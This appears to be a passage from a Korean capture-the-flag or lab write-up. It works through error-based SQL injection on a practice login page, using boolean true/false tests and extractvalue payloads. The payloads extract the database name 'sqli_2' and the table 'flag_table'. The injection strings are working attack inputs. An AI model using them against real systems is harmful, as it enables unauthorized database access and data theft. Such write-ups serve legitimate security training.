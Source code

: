 ![sqli3 login](./screenshots/sqli3_login.png)

- 로그인에 성공하면 서버는 `302 Found` 응답과 함께 `index.php`로 리다이렉션시킨다.
이를 통해 로그인 로직이 정상 동작함을 확인했으며, 이제 이를 바탕으로 SQL Injection 테스트를 진행해볼 것이다.

- 실행 결과, `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

이제 이 결과를 바탕으로, **Error Based SQL Injection 공격**을 시도해볼 것이다.

```html
' or extractvalue(1,concat(0x7e,(select+database()))) and '1'='1
```

**실행 결과:**

![sqli3 database](./screenshots/sqli3_database.png)

- **Error Based SQL Injection을 통해 데이터베이스 이름(`sqli_2`)을 성공적으로 추출**할 수 있었다.
이제 이 정보를 바탕으로, **해당 데이터베이스 내의 테이블, 컬럼, 그리고 최종 데이터까지** 순차적으로 추출할 것이다.

```html
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2' limit 0,1))) and '1'='1
```

> 테이블 이름: **flag_table**
